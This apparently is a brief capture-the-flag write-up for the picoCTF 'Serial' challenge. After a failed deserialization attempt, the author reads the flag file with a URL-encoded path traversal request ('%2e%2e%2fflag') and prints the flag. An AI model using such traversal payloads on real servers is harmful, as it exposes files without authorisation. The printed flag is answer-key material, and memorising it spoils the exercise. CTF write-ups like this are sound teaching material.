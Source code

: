 ### Serial

So I tried doing this through insecure deserialization for quite a while and couldn't get it, when I read the hint again

"The flag is at ../flag"

path traversal?

no luck with `http://mercury.picoctf.net:42449/../flag`

how about url encoded?

`http://mercury.picoctf.net:42449/%2e%2e%2fflag`

we get the flag!

picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}

I checked with the admin and this bypass wasn't intended, cool that it worked though!